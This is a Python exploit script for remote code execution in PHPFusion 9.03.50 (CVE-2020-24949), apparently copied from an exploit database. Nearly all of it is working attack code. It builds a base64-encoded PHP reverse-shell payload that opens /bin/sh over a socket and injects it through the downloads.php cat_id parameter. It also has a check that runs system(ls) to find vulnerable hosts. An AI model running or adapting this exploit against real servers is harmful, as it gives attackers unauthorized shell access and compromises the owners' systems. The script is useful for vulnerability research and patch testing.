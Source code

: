 EXP
---

    # Exploit Title: PHPFusion 9.03.50 - Remote Code Execution
    # Date: 20/05/2021
    # Exploit Author: g0ldm45k
    # Vendor Homepage: https://www.php-fusion.co.uk/home.php
    # Software Link: https://www.php-fusion.co.uk/infusions/downloads/downloads.php?cat_id=30&download_id=606
    # Version: 9.03.50
    # Tested on: Docker + Debian GNU/Linux 8 (jessie)
    # CVE : CVE-2020-24949
    # Found by: ThienNV

    import requests
    import base64
    import argparse


    PAYLOAD = "php -r '$sock=fsockopen(\"127.0.0.1\",4444);exec(\"/bin/sh -i <&4 >&4 2>&4\");'  " # !!spaces are important in order to avoid ==!!
    REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"


    parser = argparse.ArgumentParser(description='Send a payload to a Fusion 9.03.50 server with "Allow PHP Execution" enabled.')
    parser.add_argument('target', type=str, help='Turn the Allow PHP Execution verification step on or off.')
    parser.add_argument("-v", "--no-verify", action="store_false")

    args = parser.parse_args()

    if args.target.startswith("http://") or args.target.startswith("https://"):
        target = args.target
    else:
        print("[!] Target should start with either http:// or https://")
        exit()

    # verify payload
    PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
    if '+' in PAYLOAD_B64 or '=' in PAYLOAD_B64:
        print("[!] Invalid payload, make sure it does not contain a + or a =!")
        exit()

    # verify vulnerable host
    if args.no_verify:
        page_data = requests.get(target + "/infusions/downloads/downloads.php?cat_id=${system(ls)}")
        if "infusion_db.php" not in page_data.text:
            print("[!] Can't seem to find infusion_db.php. QUITTING!")
            print("[!] If this validation is wrong just use the --no-verify flag.")
            exit()


    # send request
    requests.get(target + REQUEST_PAYLOAD.format(PAYLOAD_B64))

    print("[*] Requests send, did you get what you wanted?")